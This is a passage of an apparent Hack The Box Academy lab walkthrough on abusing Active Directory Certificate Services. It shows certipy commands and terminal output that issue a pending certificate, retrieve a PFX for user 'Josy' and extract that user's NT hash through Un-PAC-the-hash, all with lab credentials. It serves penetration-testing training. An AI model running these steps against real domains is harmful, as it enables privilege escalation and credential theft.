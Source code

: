 ```shell
certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -issue-request 63
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -issue-request 63

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

After that, students need to abuse the `ManageCertificates` rights that `blwasp` possesses to retrieve the issued certificate; students need to use the `req` command of `certipy`, specifying the `Request ID` previously attained for the `-retrieve` option to attain a `PFX` certificate for the `Josy` user:

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -retrieve 63
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -retrieve 63

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 63
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'Josy'
[*] Certificate has no object SID
[*] Loaded private key from '63.key'
[*] Saved certificate and private key to 'josy.pfx'
```

At last, utilizing the certificate, students need to use the `auth` command of `certipy` to request a TGT for `Josy` and `Un-PAC-the-hash` within it; students will attain the NT hash `f0982e00d07f1329412df06ba5f6b67e`:

Code: shell

```shell
certipy auth -pfx josy.pfx -domain lab.local
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy auth -pfx josy.pfx -domain lab.local

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: josy@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'josy.ccache'
[*] Trying to retrieve NT hash for 'josy'
[*] Got hash for 'josy@lab.local': aad3b435b51404eeaad3b435b51404ee:f0982e00d07f1329412df06ba5f6b67e
```
